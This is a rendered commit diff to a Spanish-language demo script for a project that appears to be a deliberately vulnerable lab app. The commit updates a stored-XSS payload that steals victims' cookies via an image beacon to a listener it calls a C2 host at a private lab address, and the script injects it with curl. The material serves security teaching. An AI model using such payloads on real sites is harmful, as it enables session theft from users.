

Before and after one commit to MDiSc/vulnapxd, a Markdown page: docs/GUION_DEFENSA_VIDEO.md, 2 parts joined by grey strips. Rendered like a GitHub page.

Commit message:
docs(video): actualizar XSS payload a new Image para evadir CORS

````diff
--- a/docs/GUION_DEFENSA_VIDEO.md
+++ b/docs/GUION_DEFENSA_VIDEO.md
@@ -110,11 +110,11 @@
 * 🖥️ **Acción Visual:** Creas el archivo JSON con el script XSS usando un comando de una sola línea.
 * ⌨️ **Comando a escribir:**
   ```bash
-  echo '{"receiverId": 1, "content": "<script>fetch(\"http://192.168.56.10:8888/?c=\"+encodeURIComponent(document.cookie),{mode:\"no-cors\"});</script>"}' > payload_xss.json
+  echo '{"receiverId": 1, "content": "<script>new Image().src = \"http://192.168.56.10:8888/?c=\" + btoa(document.cookie);</script>"}' > payload_xss.json
   cat payload_xss.json
   ```
 * 🗣️ **Lo que dices mientras tipeas y muestras `payload_xss.json`:**
-  > *"Finalmente, para la vulnerabilidad **OWASP A05:2025 Stored XSS (CWE-79 y CWE-116)**, creamos el archivo `payload_xss.json`. Diseñamos una etiqueta `<script>` que, al ser inyectada y renderizada por el `innerHTML` del cliente, enviará asíncronamente la cookie de la víctima hacia nuestro listener C2 en `192.168.56.10:8888`. Con esto completamos el armamento de nuestros cuatro vectores de ataque."*
+  > *"Finalmente, para la vulnerabilidad **OWASP A05:2025 Stored XSS (CWE-79 y CWE-116)**, creamos el archivo `payload_xss.json`. Diseñamos una etiqueta `<script>` que, al ser inyectada y renderizada por el `innerHTML` del cliente, enviará asíncronamente la cookie de la víctima usando un `Image Beacon` hacia nuestro listener C2 en `192.168.56.10:8888`, evadiendo así las políticas CORS. Con esto completamos el armamento de nuestros vectores."*
 
 ---
 
@@ -163,7 +163,7 @@
 * ⌨️ **Comandos a escribir:**
   ```bash
   cat << 'EOF' > payload_xss.json
-  {"receiverId": 1, "content": "<script>fetch(\"http://192.168.56.10:8888/?c=\"+encodeURIComponent(document.cookie),{mode:\"no-cors\"});</script>"}
+  {"receiverId": 1, "content": "<script>new Image().src = \"http://192.168.56.10:8888/?c=\" + btoa(document.cookie);</script>"}
   EOF
   curl -i -X POST http://192.168.56.20:4000/api/message \
        -H "Content-Type: application/json" \
````
